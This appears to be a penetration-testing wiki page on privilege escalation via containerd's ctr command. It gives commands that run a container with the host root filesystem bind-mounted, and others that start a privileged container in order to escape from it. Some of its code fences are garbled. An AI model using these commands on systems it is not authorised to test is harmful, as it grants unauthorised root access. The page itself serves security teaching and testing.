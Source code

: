 # Containerd (ctr) Privilege Escalation


## Basic information

Go to the following link to learn **what is containerd** and `ctr`:

[[../../network-services-pentesting/2375-pentesting-docker.md]]

## PE 1

if you find that a host contains the `ctr` command:

```bash
which ctr
/usr/bin/ctr
```
```
You can list the images:

```bash
ctr image list
REF                                  TYPE                                                 DIGEST                                                                  SIZE      PLATFORMS   LABELS
registry:5000/alpine:latest application/vnd.docker.distribution.manifest.v2+json sha256:0565dfc4f13e1df6a2ba35e8ad549b7cb8ce6bccbc472ba69e3fe9326f186fe2 100.1 MiB linux/amd64 -
registry:5000/ubuntu:latest application/vnd.docker.distribution.manifest.v2+json sha256:ea80198bccd78360e4a36eb43f386134b837455dc5ad03236d97133f3ed3571a 302.8 MiB linux/amd64 -
```
```
And then **run one of those images mounting the host root folder to it**:

```bash
ctr run --mount type=bind,src=/,dst=/,options=rbind -t registry:5000/ubuntu:latest ubuntu bash
```
```
## PE 2

Run a container privileged and escape from it.\
You can run a privileged container as:

```bash
 ctr run --privileged --net-host -t registry:5000/modified-ubuntu:latest ubuntu bash
```
```
Then you can use some of the techniques mentioned in the following page to **escape from it abusing privileged capabilities**:

[[docker-security/]]



